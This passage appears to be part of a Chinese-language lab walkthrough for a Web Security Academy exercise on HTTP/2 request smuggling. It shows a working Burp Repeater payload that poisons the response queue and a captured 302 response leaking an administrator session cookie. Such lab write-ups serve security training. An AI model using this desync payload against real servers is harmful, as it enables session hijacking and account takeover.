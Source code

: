 ![img](assets/1706773318-7b784225e3209c6c79f52e806ad78c54.png)

Step 3：在 Burp Repeater 中构造以下请求将一个完整的请求走私到后端服务器，需要注意的是这两个请求中的路径都指向一个不存在的路径，这意味着请求将总是得到 404 响应，一旦我们成功毒化了响应队列，那么此时便更容易识别到成功捕获的其他用户的响应 (非 404 响应)

```c
POST / HTTP/2
Host: 0a7200bf0465414380e68aa700240081.web-security-academy.net
Transfer-Encoding: chunked
0
GET /x HTTP/1.1
Host: 0a7200bf0465414380e68aa700240081.web-security-academy.net
```

![img](assets/1706773318-303f5fce3a8f28b2baf473d0444420fe.png)

随后我们会捕获到包含管理员新的登录后会话 cookie 的 302 响应

```c
HTTP/2 302 Found
Location: /my-account?id=administrator
Set-Cookie: session=hTi7sNuudeR99YHcsm3l3xa3zKDAWqEB; Secure; HttpOnly; SameSite=None
X-Frame-Options: SAMEORIGIN
Content-Length: 0
```

![img](assets/1706773318-6cfe53d31b2ef6210574f7bf85dedb02.png)
